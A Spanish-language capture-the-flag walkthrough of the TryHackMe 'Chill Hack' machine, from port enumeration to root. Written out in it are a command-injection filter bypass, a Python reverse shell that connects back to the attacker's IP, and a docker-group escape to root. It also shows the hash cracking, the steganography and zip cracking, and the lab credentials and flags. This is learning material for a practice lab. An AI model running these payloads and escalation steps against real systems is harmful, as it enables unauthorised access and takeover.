

# Chill Hack - TryHackMe

- Objetivo: Obtener acceso al sistema y escalar privilegios hasta root.
- Fecha: 16/06/2025
- Autor del reto: Liiaam251
- Enlace a la máquina: [https://tryhackme.com/room/chillhack](https://tryhackme.com/room/chillhack)
- IP de la máquina: 10.10.42.200

## Enumeración de puertos con Nmap
````
$ nmap -p- --open -sS -sV -sC -T4 -n -Pn 10.10.42.200
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-06-16 09:45 EDT
Nmap scan report for 10.10.42.200
Host is up (0.051s latency).
Not shown: 65111 closed tcp ports (reset), 421 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.5
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.9.3.53
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.5 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 1001     1001           90 Oct 03  2020 note.txt
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 25:39:69:a4:a1:49:28:0a:5f:b9:ee:eb:4f:b8:41:a2 (RSA)
|   256 b3:59:5b:aa:42:e1:23:29:33:67:e1:26:93:89:a8:b8 (ECDSA)
|_  256 6c:b4:d5:35:c1:42:66:28:9d:8d:31:6d:e7:a5:35:88 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Game Info
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 26.13 seconds
````
## FTP - Anonymous
Entramos al ftp a ver que hay:
````
tp 10.10.42.200                                         
Connected to 10.10.42.200.
220 (vsFTPd 3.0.5)
Name (10.10.42.200:kali): Anonymous
331 Please specify the password.
Password: 
230 Login successful.
````
````
ftp> ls -la
229 Entering Extended Passive Mode (|||50078|)
150 Here comes the directory listing.
drwxr-xr-x    2 0        115          4096 Oct 03  2020 .
drwxr-xr-x    2 0        115          4096 Oct 03  2020 ..
-rw-r--r--    1 1001     1001           90 Oct 03  2020 note.txt
226 Directory send OK.
ftp> mkdir .ssh
550 Permission denied.
ftp> get note.txt
````
Vamos a ver que hay dentro de esta nota:
````
$ cat note.txt
Anurodh told me that there is some filtering on strings being put in the command -- Apaar
````
Pero de momento no nos dice mucho, vamos a enumerar http:

## Enumeración http:
````
$ gobuster dir -u http://10.10.102.234 -w /home/kali/Downloads/subdomains-top1mil-20000.txt -x html,php,txt -t 50
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.102.234
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /home/kali/Downloads/subdomains-top1mil-20000.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              txt,html,php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/blog.html            (Status: 200) [Size: 30279]
/news.html            (Status: 200) [Size: 19718]
/images               (Status: 301) [Size: 315] [--> http://10.10.102.234/images/]
/css                  (Status: 301) [Size: 312] [--> http://10.10.102.234/css/]
/js                   (Status: 301) [Size: 311] [--> http://10.10.102.234/js/]
/team.html            (Status: 200) [Size: 19868]
/contact.php          (Status: 200) [Size: 0]
/contact.html         (Status: 200) [Size: 18301]
/about.html           (Status: 200) [Size: 21339]
/index.html           (Status: 200) [Size: 35184]
/secret               (Status: 301) [Size: 315] [--> http://10.10.102.234/secret/]
Progress: 80000 / 80004 (100.00%)
===============================================================
Finished
````
Lo que más me llama la atención es el /secret vamos dentro para ver que hay:


Pero que sucede cuando hacemos otro comando?


Ahora vamos a intentar meter yn payload para poder ejecutar comandos, a ver si podemos saltarnos restricciones:
yo he usado esta web: 
 [https://techbrunch.github.io/patt-mkdocs/Command%20Injection/#bypass-characters-filter-via-hex-encoding](https://techbrunch.github.io/patt-mkdocs/Command%20Injection/#bypass-characters-filter-via-hex-encoding)
 
En la seccion: Bypass with $@
Entonces he usado una shell con bash:
````python
py$@thon3 -c 'import socket,subprocess,os;s=socket.socket();s.connect(("10.9.3.53",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh"])'
````
Y me pongo con esucha por el puerto 4444
````
nc -lvnp 4444
````
````
┌──(kali㉿kali)-[~/Downloads/ChillHack]
└─$ nc -lvnp 4444 
listening on [any] 4444 ...
connect to [10.9.3.53] from (UNKNOWN) [10.10.102.234] 39970
python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@ip-10-10-102-234:/var/www/html/secret$
````
## Escalada de privilegios 
Relizamos un sudo -l para ver que tenemos: 
````bash
www-data@ip-10-10-102-234:/var/www/html/secret$ sudo -l
sudo -l
Matching Defaults entries for www-data on ip-10-10-102-234:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ip-10-10-102-234:
    (apaar : ALL) NOPASSWD: /home/apaar/.helpline.sh
www-data@ip-10-10-102-234:/var/www/html/secret$
````
entonces ejecutamos sudo -u /home/apaar/.helpline.sh y ya seriamos apaar

Yo he usado esta forma pero hay muchas más:
````
www-data@ip-10-10-102-234:/home/apaar$ sudo -u apaar ./.helpline.sh
sudo -u apaar ./.helpline.sh

Welcome to helpdesk. Feel free to talk to anyone at any time!

Enter the person whom you want to talk with: /bin/sh
/bin/sh
Hello user! I am /bin/sh,  Please enter your message: /bin/sh
/bin/sh
whoami
apaar
````
despues consola mejorada en python: 
````
python3 -c 'import pty; pty.spawn("/bin/bash")'
apaar@ip-10-10-102-234:~$
````
## Task 1
1. user.txt
````
apaar@ip-10-10-102-234:~$ cat local.txt
cat local.txt
{USER-FLAG: e8vpd3323cfvlp0qpxxx9qtr5iq37oww}
````
## Escalada a root
Vamos a /var/www/files ya que había un login en la web y a lo mejor podemos encontrar algo interesante, abriendo index.php hay un connect sale el password de root para una base de datos, que no hemos listado antes, será un docker.

Entramos con las credenciales:

````
apaar@ip-10-10-102-234:/var/www/files$ mysql -u root -p
mysql -u root -p
Enter password: !@m+her00+@db
````
````
show databases;
ERROR 1064 (42000): You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near 'show databases' at line 2
mysql> show databases;
show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| sys                |
| webportal          |
+--------------------+
````
La que más me llama la atención es webportal vamos a entrar y mostrar las tablas:
`````aql
mysql> use webportal;
use webportal;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables;
show tables;
+---------------------+
| Tables_in_webportal |
+---------------------+
| users               |
+---------------------+
1 row in set (0.00 sec)

mysql> select * from users;
select * from users;
+----+-----------+----------+-----------+----------------------------------+
| id | firstname | lastname | username  | password                         |
+----+-----------+----------+-----------+----------------------------------+
|  1 | Anurodh   | Acharya  | Aurick    | 7e53614ced3640d5de23f111806cc4fd |
|  2 | Apaar     | Dahal    | cullapaar | 686216240e5af30df0501e53c789a649 |
+----+-----------+----------+-----------+----------------------------------+
2 rows in set (0.00 sec)

``````
Encontramos muchas cosas interesantes como los passwords hasehados vamos a pasarlos por crackstation: 
````
7e53614ced3640d5de23f111806cc4fd	md5	masterpassword
686216240e5af30df0501e53c789a649	md5	dontaskdonttell
````
Y encontramos los passwords  pero al hacer su aurick no funciona, a lo mejor ese password lo ha suado en otro sitio:
voy a segui buscanodo por files:
Y encuentro esto: 
````

apaar@ip-10-10-102-234:/var/www/files$ cat hacker.php
cat hacker.php
<html>
<head>
<body>
<style>
body {
  background-image: url('images/002d7e638fb463fb7a266f5ffc7ac47d.gif');
}
h2
{
        color:red;
        font-weight: bold;
}
h1
{
        color: yellow;
        font-weight: bold;
}
</style>
<center>
        <br>
        <h1 style="background-color:red;">You have reached this far. </h2>
        <h1 style="background-color:black;">Look in the dark! You will find your answer</h1>
</center>
</head>
</html>
apaar@ip-10-10-102-234:/var/www/files$
````
Lo cual me llama la atención ya que hay una url y la imagen es muy estaña voy a ver metadastos:
````
apaar@ip-10-10-102-234:/var/www/files/images$ ls
ls
002d7e638fb463fb7a266f5ffc7ac47d.gif  hacker-with-laptop_23-2147985341.jpg
apaar@ip-10-10-102-234:/var/www/files/images$
````
Y nos la pasamos con python para pasarnos el archvio para usar la herramienta 
````
steghide -sf extract hacker-with-laptop_23-2147985341.jpg
````
con password nulo y encontramos backup.zip contiene contraseña vamos a usar fcrackzip:

````
fcrackzip -u -D -p /home/kali/Downloads/rockyou.txt backup.zip


PASSWORD FOUND!!!!: pw == pass1word
````
Dentro de este encntramos un php con una contraseña en base 64:
````php
$ cat source_code.php 
<html>
<head>
        Admin Portal
</head>
        <title> Site Under Development ... </title>
        <body>
                <form method="POST">
                        Username: <input type="text" name="name" placeholder="username"><br><br>
                        Email: <input type="email" name="email" placeholder="email"><br><br>
                        Password: <input type="password" name="password" placeholder="password">
                        <input type="submit" name="submit" value="Submit"> 
                </form>
<?php
        if(isset($_POST['submit']))
        {
                $email = $_POST["email"];
                $password = $_POST["password"];
                if(base64_encode($password) == "IWQwbnRLbjB3bVlwQHNzdzByZA==")
                { 
                        $random = rand(1000,9999);?><br><br><br>
                        <form method="POST">
                                Enter the OTP: <input type="number" name="otp">
                                <input type="submit" name="submitOtp" value="Submit">
                        </form>
                <?php   mail($email,"OTP for authentication",$random);
                        if(isset($_POST["submitOtp"]))
                                {
                                        $otp = $_POST["otp"];
                                        if($otp == $random)
                                        {
                                                echo "Welcome Anurodh!";
                                                header("Location: authenticated.php");
                                        }
                                        else
                                        {
                                                echo "Invalid OTP";
                                        }
                                }
                }
                else
                {
                        echo "Invalid Username or Password";
                }
        }
?>
</html>
````
Despues de pasarlo por cyberchef vamos a ver si la contraseña esta vez es correcta::
````
su anurodh
Password: !d0ntKn0wmYp@ssw0rd
whoami
anurodh
````
efectivamente ahora solo queda escalas a root:
Haciendo un id me he dado cuenta de que somos máximos privilegiados de este, entonces en GTFObins he hecho una shell para escalar este 
````
anurodh@ip-10-10-102-234:/var/www/html/secret$ docker run -v /:/mnt --rm -it alpine chroot /mnt sh
<docker run -v /:/mnt --rm -it alpine chroot /mnt sh
# whoami
whoami
root
````
````
# cat proof.txt
cat proof.txt


                                        {ROOT-FLAG: w18gfpn9xehsgd3tovhk0hby4gdp89bg}


Congratulations! You have successfully completed the challenge.


         ,-.-.     ,----.                                             _,.---._    .-._           ,----.  
,-..-.-./  \==\ ,-.--` , \   _.-.      _.-.             _,..---._   ,-.' , -  `. /==/ \  .-._ ,-.--` , \ 
|, \=/\=|- |==||==|-  _.-` .-,.'|    .-,.'|           /==/,   -  \ /==/_,  ,  - \|==|, \/ /, /==|-  _.-` 
|- |/ |/ , /==/|==|   `.-.|==|, |   |==|, |           |==|   _   _\==|   .=.     |==|-  \|  ||==|   `.-. 
 \, ,     _|==/==/_ ,    /|==|- |   |==|- |           |==|  .=.   |==|_ : ;=:  - |==| ,  | -/==/_ ,    / 
 | -  -  , |==|==|    .-' |==|, |   |==|, |           |==|,|   | -|==| , '='     |==| -   _ |==|    .-'  
  \  ,  - /==/|==|_  ,`-._|==|- `-._|==|- `-._        |==|  '='   /\==\ -    ,_ /|==|  /\ , |==|_  ,`-._ 
  |-  /\ /==/ /==/ ,     //==/ - , ,/==/ - , ,/       |==|-,   _`/  '.='. -   .' /==/, | |- /==/ ,     / 
  `--`  `--`  `--`-----`` `--`-----'`--`-----'        `-.`.____.'     `--`--''   `--`./  `--`--`-----``  


--------------------------------------------Designed By -------------------------------------------------------
                                        |  Anurodh Acharya |
                                        ---------------------

                                     Let me know if you liked it.

Twitter
        - @acharya_anurodh
Linkedin
        - www.linkedin.com/in/anurodh-acharya-b1937116a

````
Y ya tenemos su flag


 
